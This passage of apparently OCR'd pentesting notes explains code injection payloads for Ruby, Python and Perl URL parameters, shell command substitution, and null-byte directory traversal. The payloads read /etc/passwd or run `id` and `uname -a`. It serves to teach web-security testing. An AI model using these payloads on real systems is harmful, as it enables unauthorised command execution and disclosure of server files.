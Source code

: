 ##### 2. Ruby

* strings can be concatenated using `"ha"+"cker"`which means `hacker` 

  to run a command `` `uname -a`  `` 

  so if there is a parameter `?name=hacker` we can execute using ``?name=hacker"+`uname -a`+"``  make sure to replace    **+** with **%2b** in url encoding.

##### 3. Python

* to run a command `os.system('id')`  or if you want output as string format `os.popen('id').read()` 

  as os.popen() is deprecated in python 2.6 you should use subprocess.Popen()

  so we can execute it using `?name=hacker"+str(os.popen('id').read())+"`

  NOTE: condition provided that they have imported os module in the backend

* if os module is not imported by them we can import and execute it using

  `__import__('os').system('id')` 

* Now the condition is  **/**  can't be used else the application with consider it as path of a url.

  so, we will base64 encode the part where **/** is used

  `__import__('os').popen(__import__('base64').b64decode('encodedstring')).read()`

  convert `cat /etc/passwd` to `encodedstring`

##### 4. Perl

* strings can be concatenated using `'ha'.'cker'`which means `hacker` 

  to run a command `` `uname -a` `` 

  so if there is a parameter `?name=hacker` we can execute using ``?name=hacker'.`uname -a`'``

### Command Execution

* The **backtick** `` `...` ``  or `$(...)` is actually called command substitution. The purpose of command  substitution is to evaluate the command which is placed inside the **backtick** or **$(...)**  and provide its result as an argument to the actual command.

  example:  ``ping `uname -a` ``  or `ping $(uname -a)`

### Directory Traversal

* if there is a url `?file=/hacker` which opens an image that means there is a server side code with adds extensions like .jpeg or .png to our file name hacker

  so if we execute `?file=/../../../etc/passwd` then to bypass that addition of suffix we will add a **null byte character** to our url which will not read any suffix added after it

  `?file=/../../../../etc/passwd%00` 

### File Inclusion
